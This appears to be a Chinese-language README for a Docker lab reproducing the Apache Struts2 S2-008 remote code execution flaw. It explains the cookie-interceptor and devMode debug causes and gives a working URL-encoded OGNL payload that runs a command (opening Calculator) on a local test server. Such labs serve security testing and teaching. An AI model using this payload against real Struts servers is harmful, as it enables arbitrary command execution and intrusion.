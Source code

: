 # S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: http://struts.apache.org/docs/s2-008.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```
